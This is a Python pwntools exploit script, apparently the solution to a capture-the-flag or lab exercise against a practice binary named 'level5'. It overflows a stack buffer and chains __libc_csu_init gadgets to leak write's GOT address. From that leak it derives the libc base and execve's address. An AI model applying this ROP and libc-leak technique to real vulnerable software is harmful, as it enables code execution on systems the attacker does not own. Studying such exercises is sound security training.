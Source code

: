     #context.log_level = 'debug'

    level5 = ELF('./level5')
    sh = process('./level5')

    write_got = level5.got['write']
    read_got = level5.got['read']
    main_addr = level5.symbols['main']
    bss_base = level5.bss()
    csu_front_addr = 0x0000000000400600
    csu_end_addr = 0x000000000040061A
    fakeebp = 'b' * 8

    def csu(rbx, rbp, r12, r13, r14, r15, last):
        # pop rbx,rbp,r12,r13,r14,r15
        # rbx should be 0,
        # rbp should be 1,enable not to jump
        # r12 should be the function we want to call
        # rdi=edi=r15d
        # rsi=r14
        # rdx=r13
        payload = 'a' * 0x80 + fakeebp
        payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
            r13) + p64(r14) + p64(r15)
        payload += p64(csu_front_addr)
        payload += 'a' * 0x38
        payload += p64(last)
        sh.send(payload)
        sleep(1)

    sh.recvuntil('Hello, World\n')
    ## RDI, RSI, RDX, RCX, R8, R9, more on the stack
    ## write(1,write_got,8)
    csu(0, 1, write_got, 8, write_got, 1, main_addr)

    write_addr = u64(sh.recv(8))
    libc = LibcSearcher('write', write_addr)
    libc_base = write_addr - libc.dump('write')
    execve_addr = libc_base + libc.dump('execve')
    log.success('execve_addr ' + hex(execve_addr))
    ##gdb.attach(sh)
